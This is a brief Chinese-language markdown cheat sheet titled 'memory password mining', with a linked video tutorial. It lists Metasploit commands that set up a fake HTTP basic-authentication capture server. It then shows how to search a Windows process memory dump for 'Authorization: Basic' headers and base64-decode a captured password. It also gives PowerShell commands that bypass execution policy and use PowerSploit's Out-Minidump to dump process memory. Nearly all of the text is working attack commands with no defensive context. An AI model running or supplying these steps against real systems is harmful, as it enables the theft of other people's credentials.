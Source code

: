 ```yaml
---
title: 内存密码挖掘
categories:
- windows
tags:
- windows
---
```


视频教程[地址](https://www.acfun.cn/v/ac13003593)

msfconsole -r pass.rc
```
use auxiliary/server/capture/http_basic
set uripath x
run
```
访问http://192.168.1.101/x

```
strings /root/Desktop/*.DMP | grep "Authorization: Basic"
echo "cXdmOnF3Zg==" | base64 -d
```
## powersploit
使用该脚本获取内存中的密码
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\Out-Minidump.ps1
Out-Minidump Get-Process -Id pid 
```
